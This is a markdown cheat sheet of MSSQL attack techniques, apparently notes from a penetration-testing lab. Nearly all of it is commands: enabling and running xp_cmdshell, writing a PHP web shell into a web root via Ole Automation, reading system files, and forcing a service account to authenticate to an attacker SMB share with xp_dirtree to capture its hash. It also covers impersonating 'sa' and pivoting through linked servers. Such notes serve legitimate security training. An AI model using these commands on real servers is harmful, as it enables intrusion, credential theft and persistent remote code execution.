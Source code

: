 #### MSSQL
```bash
sqsh -S 10.129.20.13 -U username -P Password123
```
##### Enuermation
If we use sqlcmd, we will need to use GO after our query to execute the SQL syntax.
```powershell
1> SELECT name FROM master.dbo.sysdatabases
2> GO

1> USE htbusers
2> GO

1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO

1> SELECT * FROM users
2> GO
```
##### XP_CMDSHELL
```powershell
1> xp_cmdshell 'whoami'
2> GO
```
Enable XP_CMDSHELL
```bash
EXECUTE sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
RECONFIGURE
GO
```
##### Write local files
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:
```powershell
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

```powershell
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
##### Read local files
```powershell
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
##### Capture Service Account Hash
```powershell
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

```powershell
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
##### Impersonate Users
Identify available users
```powershell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
Verify current user and role
```powershell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user.

IMPERSONATE
```powershell
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
##### Communicate with linked services
```powershell
1> SELECT srvname, isremote FROM sysservers
2> GO

1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

1> EXECUTE('master..xp_dirtree ''\\10.10.110.17\share\''') AT [10.0.0.12\SQLEXPRESS]
2> GO
```